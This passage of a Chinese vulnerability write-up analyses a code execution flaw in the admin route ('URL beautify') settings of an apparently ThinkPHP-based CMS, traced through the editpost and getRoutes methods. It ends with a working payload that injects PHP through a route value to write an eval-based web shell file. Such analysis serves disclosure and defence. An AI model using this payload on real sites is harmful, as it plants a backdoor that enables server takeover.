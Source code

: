 扩展类库目录

#### thinkphp

thinkphp目录

#### vendor

第三方类库目录（Composer）

## 代码执行漏洞     

当在后台【URL美化】功能中插入PHP代码保存后，重新访问该页面PHP代码会被执行，在public下创建11.php，导致产生代码执行漏洞。

![图片9](https://user-images.githubusercontent.com/51915181/218089019-1cc8c8ea-b346-4f3b-a5ce-aae881bcc3ee.png)

尝试抓包，看看我们在保存设置到最后执行PHP代码之间经历了什么

![图片10](https://user-images.githubusercontent.com/51915181/218089078-e6a067a3-99e1-4d56-ae82-0cdcd3f17628.png)

一共提交了两个请求，第一个请求提交到admin目录下route控制器中的editpost方法

![图片11](https://user-images.githubusercontent.com/51915181/218089088-02c7196d-9c6b-46a9-88de-bcd003cf36cb.png)


该方法是用来接收参数后更新到数据库。流程应该就是当某个URL地址被访问后，路由机制会从数据出中读取是否存在该URL的地址转发，如果有，则访问到相对应的路径。

![图片12](https://user-images.githubusercontent.com/51915181/218089128-3dce90ee-0e10-432d-88f8-022edd12b747.png)


第二个请求对route表中的数据排序后调用getRoutes方法

![图片13](https://user-images.githubusercontent.com/51915181/218089164-83212295-b069-4d0f-b3fb-cd4ab7ceab5b.png)

跟进getRoutes方法

![图片15](https://user-images.githubusercontent.com/51915181/218089188-736c7bc8-dedf-47d0-9cc6-90f0c268df1c.png)


最后构造payload:`'.file_put_contents('1.php','<?php @eval($_POST[1]); ?>').'`

![图片14](https://user-images.githubusercontent.com/51915181/218089205-5c157f66-52af-4cf3-8ad9-f3b309b84662.png)
